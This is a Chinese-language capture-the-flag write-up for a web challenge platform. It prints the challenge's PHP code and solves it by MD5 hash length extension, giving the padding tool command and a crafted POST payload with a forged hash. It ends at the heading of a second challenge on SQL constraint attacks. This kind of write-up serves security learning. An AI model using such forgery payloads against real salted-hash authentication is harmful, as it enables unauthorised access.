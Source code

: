 ﻿---
title: 凌虚攻防平台web
categories: 
---
## 需要学习 : HASH 长度扩展攻击,SQL二次注入 , SSTI ,  反序列化

## web1-hash attack
- 知识点  hash长度扩展攻击

```bash
<?php 
echo "已知一组role为admin，salt长度为4，hash为c7813629f22b6a7d28a08041db3e80a9,想要扩展的字符串是joychou"."<br>"; 
$flag = "**********"; 
$role = $_REQUEST["role"]; 
$hash = $_REQUEST["hash"]; 
$salt = "***********"; //The length is 4 

if ($hash !== md5($salt.$role)){ 
    echo 'wrong!';      
    exit; 
} 

if ( $role == 'admin'){ 
    echo 'no no no !, hash cann\'t be admin'; 
    exit; 
} 

//echo "You are ".$role.'</br>'; 
echo 'Congradulation! The flag is'.$flag; 

?> wrong

```

payload:

使用    [链接](https://github.com/JoyChou93/md5-extension-attack)

```bash
python md5pad.py c7813629f22b6a7d28a08041db3e80a9 joychou 9
```

```bash
POST:
role=admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00H%00%00%00%00%00%00%00joychou&hash=06cf5a94dcda53659f58c0f411ba0bd8
```

![](https://img-blog.csdnimg.cn/20210220225428655.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


---
## web2-后台管理系统
- 知识点  sql约束攻击
